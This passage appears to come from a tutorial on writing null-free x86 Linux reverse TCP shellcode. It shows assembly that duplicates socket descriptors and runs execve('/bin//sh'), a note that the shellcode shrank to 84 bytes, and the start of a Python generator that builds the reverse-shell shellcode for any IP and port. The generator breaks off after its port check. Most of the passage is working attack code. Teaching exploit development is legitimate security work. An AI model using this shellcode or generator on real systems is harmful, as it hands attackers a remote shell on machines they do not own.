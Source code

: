 ```nasm
duploop:
	xor eax, eax
	mov al, 0x3f		; dup2, 63
	int 0x80		; execute
	dec ecx
	jns duploop


        ; int execve(const char *filename, char *const argv[], char *const envp[])
        ; eax = 0xb
        ; ebx = [esp +8]
        ; ecx = esp
        ; edx = [esp +4]
        ; esp => |--[esp +8]--|0x00000000|0x2f62696e|0x2f2f7368|0x00000000|
        ;                                    /bin       //sh

	xor ecx, ecx
	push ecx
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	push ecx
	mov edx, esp
	push ebx
	mov ecx, esp
	mov al, 0xb
	int 0x80
```

While not only removing the nulls, we've managed to shrink our shellcode from 124 bytes to 84 bytes!

The last step is to make this shellcode portable, that is to say we need a way to swap out the parameters *host* and *port*.  I've written this *generator* in python, shown below:

```python
#!/usr/bin/python
# generator.py
#  - Generate reverse tcp shellcode

import sys

if (len(sys.argv) != 3):
	print "Usage: %s <ip> <port>" % sys.argv[0]
	print "\tNote: Ip must avoid nulls"
	print "\tNote: Port must be between 256 and 65535 to avoid nulls"
	sys.exit()

try:
	ip = sys.argv[1]
	ip_parts = ip.split(".")
	if (len(ip_parts) != 4):
		raise ValueError
	for part in ip_parts:
		part_int = int(part)
		if (part_int < 1 or part_int > 255):
			raise ValueError
except ValueError:
	sys.exit("[-] Please enter a valid ip address")

try:
	port = int(sys.argv[2])
	if (port < 256 or port > 65535):
		raise ValueError
```
